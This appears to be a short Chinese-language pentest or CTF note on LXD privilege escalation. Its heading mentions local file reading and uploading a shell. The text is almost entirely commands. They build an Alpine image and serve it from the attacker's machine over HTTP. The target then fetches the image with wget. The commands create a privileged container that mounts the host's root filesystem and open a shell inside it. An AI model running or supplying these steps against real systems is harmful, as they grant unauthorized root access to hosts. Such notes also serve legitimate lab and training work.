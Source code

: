 知识点： 本地文件读取上传shell   lxd提权 制作镜像 上传服务器 开启特权容器
shell:
https://images.lxd.canonical.com/ #下载相关镜像
#本地或者制作镜像
sudo apt install -y golang-go debootstrap rsync gpg squashfs-tools
git clone https://github.com/lxc/distrobuilder
cd distrobuilder
make
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18

python3 -m http.server 8000 #本地

#目标机
wget http://{local_IP}:8000/lxd.tar.xz
wget http://{local_IP}:8000/rootfs.squashfs

lxc image import lxd.tar.xz rootfs.squashfs --alias alpine

lxc image list

lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/sh
